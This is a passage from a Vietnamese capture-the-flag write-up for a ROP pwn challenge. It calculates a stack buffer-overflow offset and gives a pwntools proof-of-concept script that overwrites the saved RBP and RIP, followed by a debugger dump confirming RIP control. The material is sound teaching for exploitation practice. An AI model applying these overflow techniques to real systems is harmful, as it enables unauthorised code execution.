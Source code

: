 <br/>

Trước tiên, cần phải tính toán offset để ghi đè Saved RIP. Mảng `buf` nằm ở `[rbp - 0x20]` &rarr; ta cần 32 bytes để ghi đè nó. Mình sẽ thử viết 1 POC để trigger lỗi xem new RBP và new RIP sẽ có giá trị như nào. 

```python
#!/usr/bin/env python3
from pwn import *
import time

exe = ELF('./chall_patched', checksec=False)
libc = ELF('./libc.so.6', checksec=False)
ld = ELF('./ld-linux-x86-64.so.2', checksec=False)

context.update(arch='amd64', os='linux', log_level='debug', terminal='cmd.exe /c start wsl'.split(), binary=exe)

p = process(exe.path)   

payload = flat(
    b'A' * 0x20, 
    0xdeedbeef,         # New RBP 
    b'B' * 8            # New RIP 
)

p.send(payload)

p.interactive()
```

Kết quả thu được như mình mong muốn, new RBP = 0xdeedbeef và new RIP = BBBBBBBB

```shell
$rax   : 0x30
$rbx   : 0x0
$rcx   : 0x00001555553fd7e2  →  0x5677fffff0003d48 ("H="?)
$rdx   : 0x48
$rsp   : 0x00007fffffffdfe8  →  0x4242424242424242 ("BBBBBBBB"?)
$rbp   : 0xdeedbeef
$rsi   : 0x00007fffffffdfc0  →  0x4141414141414141 ("AAAAAAAA"?)
$rdi   : 0x0
$rip   : 0x0000000000401261  →  <vuln+002d> ret
$r8    : 0x00007fffffffdf30  →  0x0000000000000000
$r9    : 0x0
$r10   : 0x00001555552ef5e8  →  0x000f001200001a64
$r11   : 0x246
$r12   : 0x00007fffffffe108  →  0x00007fffffffe37e  →  "/home/ducdatdau/ctfs/2024/ascis_final/pwn-ROP/chal[...]"
$r13   : 0x0000000000401262  →  <main+0000> endbr64
$r14   : 0x0000000000403e18  →  0x0000000000401180  →  <__do_global_dtors_aux+0000> endbr64
$r15   : 0x0000155555554040  →  0x00001555555552e0  →  0x0000000000000000
$eflags: [zero CARRY PARITY adjust sign trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x33 $ss: 0x2b $ds: 0x00 $es: 0x00 $fs: 0x00 $gs: 0x00
─────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0x00007fffffffdfe8│+0x0000: 0x4242424242424242   ← $rsp
0x00007fffffffdff0│+0x0008: 0x0000000000000001
0x00007fffffffdff8│+0x0010: 0x0000155555312d90  →  0xe80001b859e8c789
0x00007fffffffe000│+0x0018: 0x0000000000000000
0x00007fffffffe008│+0x0020: 0x0000000000401262  →  <main+0000> endbr64
0x00007fffffffe010│+0x0028: 0x00000001ffffe0f0
0x00007fffffffe018│+0x0030: 0x00007fffffffe108  →  0x00007fffffffe37e  →  "/home/ducdatdau/ctfs/2024/ascis_final/pwn-ROP/chal[...]"
0x00007fffffffe020│+0x0038: 0x0000000000000000
```